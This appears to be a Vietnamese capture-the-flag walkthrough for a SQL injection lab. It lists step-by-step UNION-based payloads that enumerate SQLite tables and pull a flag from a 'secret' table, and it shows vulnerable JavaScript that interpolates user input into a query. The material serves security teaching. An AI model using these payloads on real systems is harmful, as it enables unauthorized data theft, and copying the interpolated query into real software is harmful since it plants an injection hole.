 ```
'
```

**Kết quả**: Nếu báo lỗi SQL → Có lỗ hổng SQL Injection!

### Bước 3: Xác Định Số Cột

Sử dụng `ORDER BY` để tìm số cột:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  (sẽ lỗi vì chỉ có 2 cột)
```

**Kết quả**: Xác định được có 2 cột (id, title)

### Bước 4: Union-Based Attack

Sử dụng `UNION SELECT`:

```
' UNION SELECT 1, 2--
```

**Kết quả**: Hiển thị "1" và "2" trong kết quả

### Bước 5: Khám Phá Các Bảng

Liệt kê tất cả tables:

```
' UNION SELECT 1, name FROM sqlite_master WHERE type='table'--
```

**Kết quả**: Hiển thị danh sách tables (posts, users, secret, comments)

### Bước 6: Lấy Flag 🚩

Truy vấn bảng secret:

```
' UNION SELECT id, flag FROM secret--
```

**Kết quả**: `FLAG{SQL_1nj3ct10n_M4st3r}`

## 🔍 Phân Tích Kỹ Thuật

### Code Vulnerable

```javascript
// src/models/Post.js - KHÔNG AN TOÀN
const query = `SELECT id, title FROM posts WHERE title LIKE '%${searchTerm}%'`;
database.getDb().all(query, [], callback);
```
